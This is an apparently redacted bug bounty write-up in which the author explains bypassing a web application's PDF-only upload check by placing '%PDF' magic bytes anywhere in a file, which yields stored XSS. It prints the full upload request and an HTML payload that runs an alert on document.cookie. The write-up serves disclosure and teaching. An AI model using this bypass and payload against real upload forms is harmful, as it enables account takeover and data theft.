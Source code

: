 ```yaml
---
title: Arbitary File Upload too Stored XSS - Bug Bounty 
tags: [Bug Bounty, Arbitary File Upload, Stored XSS]
description: Readacted Writeup of how I got Stored XSS by Exploiting a Unrestricted File Upload bug. 
published: false
image: https://i.imgur.com/vNZchC3.png
thumbnail: https://i.imgur.com/vNZchC3.png
---
```




##  Introduction



Recently I was working on a private bug bounty program which was relatively new so I decided to check it out, I did not obtain full disclosure hence the redacted post.



The Web Application provided a HR and Bookkeeping platform similar to Sage but online and written in ASP.net. Due to improper checking on file uploads, I was able to bypass the restrictions in place to upload a `.html` containing `PDF` magic-bytes and include arbitary `JavaScript` thus gaining `Stored XSS`



##  Basic Enumeration



My initial enumeration on the application started by clicking through the application and discovering as many parameters as possible. While doing this I came across a interesting form which allowed users to attach `PDF's` only. 



It appeared that the application was checking 2 things to ensure that the user only uploaded a `PDF`, Firstly it checked if the `Content-Type` matched `application/pdf` and secondly carried out some `MIME Sniffing` by ensuring the body contained the PDF Magic Bytes `%PDF`



However while the application checked if the supplied file contained `%PDF` it did not check where the magic-bytes where, therefore providing the file you uploaded contained `%PDF` anywhere it would be accepted. 

  



## Exploiting / PoC



At this point I decided to try upload a basic `.exe` as a `PoC` and was able too do some with the below request.



```
POST /api/internal/salesdocumentattachment/upload/image HTTP/1.1
Host: xxxxxxx.readacted.com
Connection: close
Content-Length: 471870
X-XSRF-Token: readacted
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Accept: application/json
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6Bbv3VuL9Lj78ZWq
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: 

------WebKitFormBoundary6Bbv3VuL9Lj78ZWq
Content-Disposition: form-data; name="file"; filename="m0chan.exe"
Content-Type: application/pdf

MZýýýý@ýýý  ý!ýLý!This program %PDFcannot be run in DOS mode.

readacted file content
------WebKitFormBoundary6Bbv3VuL9Lj78ZWq--
```



As you can see I added the `%PDF` magic byte inside the first string and it got accepted, an attacker could easily compile a application with `%PDF` as a string and it would get accepted. However I decided I would try elevate the severity of this by trying to upload a shell or a `.svg`



After a few hours of trying various different web languages it appeared that the download link I was accessing to download my uploads was not interpreting anything or being served, however it did offer a preview functionality. 



I crafted a payload with help of my friend [@fuckup](https://twitter.com/fuckup_1337) which contained the PDF MagicBytes, Arbitary JavaScript and was uploaded as a `.html`



```
%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<h1>Payload PDF</h1> <img src=x onerror=alert(document.cookie)>
```



After uploading I visited the URL directly and was greeted with the following :) 

<img align ="center" src ="http://i.imgur.com/lruxehV.png"></img>



I found it really strange that only `.html` was being interpreted and tried for a few more hours to serve other web-languages with no avail.



I later discovered the uploaded files were not actually being uploaded to the webserver itself so would never have been interpreted. 



 ## Timeline



**Tuesday 3rd Feb** - Reported Arbitary File Upload too H1

**Tuesday 4th Feb** - Added Stored XSS too Report

**Tuesday 5th Feb**- Triaged and Bounty Awarded

**Monday 2nd March - Resolved**




